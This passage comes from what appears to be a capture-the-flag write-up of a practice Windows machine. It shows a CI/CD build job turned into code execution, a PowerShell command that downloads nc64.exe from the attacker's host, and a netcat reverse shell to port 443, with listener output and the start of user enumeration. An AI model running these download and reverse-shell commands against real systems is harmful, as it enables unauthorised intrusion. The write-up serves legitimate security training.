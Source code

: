 Now back in Pipelines, I’ll select the CICD job for the project I uploaded
into (Alpha), and run the build job, giving it the branch I created:

![image-20200822212414083](https://0xdfimages.gitlab.io/img/image-20200822212414083.png)

About 30 seconds later the job completes and the shell is there:

![image-20200822094517569](https://0xdfimages.gitlab.io/img/image-20200822094517569.png)

And it has execution:

![image-20200822212520948](https://0xdfimages.gitlab.io/img/image-20200822212520948.png)

### Shell

I’ll start a local Python webserver and then upload `nc64.exe` using the
following command: `powershell -c wget 10.10.14.24/nc64.exe -outfile
\programdata\nc.exe`.

Now I’ll get a shell by running `\programdata\nc.exe -e cmd.exe 10.10.14.24
443`:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.203.
    Ncat: Connection from 10.10.10.203:49987.
    Microsoft Windows [Version 10.0.17763.1282]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    c:\windows\system32\inetsrv>
    

## Priv: iis –> robisl

### Enumeration

Before uploading an enumeration script like
[WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-
suite/tree/master/winPEAS), I always explore the system a bit. No interesting
directories at the root of C. Two potential users on the box, restorer and
robisl:

    
    
    c:\Users>dir
    dir
     Volume in drive C has no label.
     Volume Serial Number is 32D6-9041
    
     Directory of c:\Users
    
    2020-07-07  17:53    <DIR>          .
    2020-07-07  17:53    <DIR>          ..
    2020-03-28  15:59    <DIR>          .NET v4.5
    2020-03-28  15:59    <DIR>          .NET v4.5 Classic
    2020-07-22  01:02    <DIR>          Administrator
    2020-03-28  15:01    <DIR>          Public
    2020-07-22  01:11    <DIR>          restorer
    2020-07-08  19:22    <DIR>          robisl
                   0 File(s)              0 bytes
                   8 Dir(s)  10420121600 bytes free
    